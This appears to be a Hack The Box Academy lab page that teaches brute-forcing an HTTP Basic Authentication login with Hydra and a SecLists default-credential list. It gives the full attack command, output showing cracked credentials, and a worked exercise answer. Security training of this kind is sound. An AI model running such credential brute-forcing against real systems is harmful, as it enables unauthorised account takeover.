# Default Passwords

Default passwords are often used for user accounts for testing purposes. They are easy to remember and are also used for default accounts of services and applications intended to simplify first access. It is not uncommon for such user accounts to be overlooked or forgotten. Due to the natural laziness of man, everyone tries to make it as comfortable as possible. This, in turn, leads to inattentiveness and the resulting errors, which can harm the company's infrastructure.

As we saw when we visited the website, it prompted the `Basic HTTP Authentication` form to input the username and password. Basic HTTP Authentication usually responses with an HTTP `401 Unauthorized` response code. As we mentioned previously, we will resort to a Brute Forcing attack, as we do not have enough information to attempt a different type of attack, which we will cover in this section.

***

### Hydra

`Hydra` is a handy tool for Login Brute Forcing, as it covers a wide variety of attacks and services and is relatively fast compared to the others. It can test any pair of credentials and verify whether they are successful or not but in huge numbers and a very quick manner.

If we want to use it on our own machine, we can either use "`apt install hydra -y`" or download it and use it from its [Github Repository](https://github.com/vanhauser-thc/thc-hydra) but its pre-installed on Pwnbox.

We can take a look at the options that `hydra` provides and see its flags and examples of how it can be used:

Default Passwords

```shell-session
AIceBear@htb[/htb]$ hydra -h

Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [-m MODULE_OPT] [service://server[:PORT][/OPT]]

Options:
<...SNIP...>
  -s PORT   if the service is on a different default port, define it here
  -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE  try password PASS, or load several passwords from FILE
  -u        loop around users, not passwords (effective! implied with -x)
  -f / -F   exit when a login/pass pair is found (-M: -f per host, -F global)
  server    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
  service   the service to crack (see below for supported protocols)

<...SNIP...>

Examples:
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```

***

### Default Passwords

As we don't know which user to brute force, we will have to brute force both fields. We can either provide different wordlists for the usernames and passwords and iterate over all possible username and password combinations. However, we should keep this as a last resort.

It is very common to find pairs of usernames and passwords used together, especially when default service passwords are kept unchanged. That is why it is better to always start with a wordlist of such credential pairs -e.g. `test:test`-, and scan all of them first.

This should not take a long time, and if we could not find any working pairs, we would move to use separate wordlists for each or search for the top 100 most common passwords that can be used.

We can find a list of default password login pairs in the [SecLists](https://github.com/danielmiessler/SecLists) repository as well, specifically in the `/opt/useful/SecLists/Passwords/Default-Credentials` directory within Pwnbox. In this case, we will pick `ftp-betterdefaultpasslist.txt` as it seems to be the most relevant to our case since it contains a variety of default user/password combinations. We will be using the following flags, based on help page above:

| **Options**                        | **Description**               |
| ---------------------------------- | ----------------------------- |
| `-C ftp-betterdefaultpasslist.txt` | Combined Credentials Wordlist |
| `SERVER_IP`                        | Target IP                     |
| `-s PORT`                          | Target Port                   |
| `http-get`                         | Request Method                |
| `/`                                | Target Path                   |

The assembled command results:

Default Passwords

```shell-session
AIceBear@htb[/htb]$ hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking http-get://178.211.23.155:31099/
[31099][http-get] host: 178.211.23.155   login: test   password: testingpw
[STATUS] attack finished for 178.211.23.155 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

It's pretty common for administrators to overlook test or default accounts and their credentials. That is why it is always advised to start by scanning for default credentials, as they are very commonly left unchanged. It is even worth testing for the top 3-5 most common default credentials manually, as it can very often be found to be used.

We can visit the website again and try the same pair to verify that they do work:

![](https://academy.hackthebox.com/storage/modules/57/bruteforcing\_index.jpg)

As we can see, we do get access, and the pair indeed works. Next, we can try to attempt running the second type of scan by separate user wordlists for usernames and passwords and see how long it takes to find the same pair we just identified.

**Questions**

Using the technique you learned in this section, try attacking the IP shown above. What are the credentials used?

```bash
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 94.237.49.138 -s 49729 http-get /
#[49729][http-get] host: 94.237.49.138   login: admin   password: admin
```
